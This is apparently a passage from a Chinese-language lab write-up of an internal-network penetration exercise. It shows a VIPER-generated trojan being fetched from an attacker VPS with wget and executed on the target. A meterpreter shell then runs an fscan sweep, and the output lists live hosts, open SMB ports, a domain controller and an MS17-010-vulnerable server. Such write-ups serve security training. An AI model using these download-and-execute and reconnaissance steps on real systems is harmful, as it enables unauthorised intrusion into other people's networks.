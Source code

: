 ## 信息搜集

使用 VIPER 生成木马后上传至靶机

```plain
攻击机：
python3 -m http.server
靶机
wget VPS:PORT/xxx.elf
./xxx.elf
```

上传后上传`fscan`和`chisel`，使用 fscan 进行 C 段探测

```plain
meterpreter > shell -c './fscan -h 172.22.11.76/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.22.11.76    is alive
(icmp) Target 172.22.11.6     is alive
(icmp) Target 172.22.11.26    is alive
(icmp) Target 172.22.11.45    is alive
[*] Icmp alive hosts len is: 4
172.22.11.76:8080 open
172.22.11.76:22 open
172.22.11.26:445 open
172.22.11.45:445 open
172.22.11.6:445 open
172.22.11.45:139 open
172.22.11.26:139 open
172.22.11.6:139 open
172.22.11.26:135 open
172.22.11.45:135 open
172.22.11.6:135 open
172.22.11.76:8009 open
172.22.11.6:88 open
[*] alive ports len is: 13
start vulscan
[*] NetBios 172.22.11.6     [+] DC:XIAORANG\XIAORANG-DC    
[*] NetBios 172.22.11.26    XIAORANG\XR-LCM3AE8B          
[*] NetInfo 
[*]172.22.11.6
   [->]XIAORANG-DC
   [->]172.22.11.6
[+] MS17-010 172.22.11.45   (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetInfo 
[*]172.22.11.26
   [->]XR-LCM3AE8B
   [->]172.22.11.26
[*] NetBios 172.22.11.45    XR-DESKTOP.xiaorang.lab             Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.11.76:8080  code:200 len:7091   title:后台管理
已完成 13/13
[*] 扫描结束，耗时：7.176621862s
```
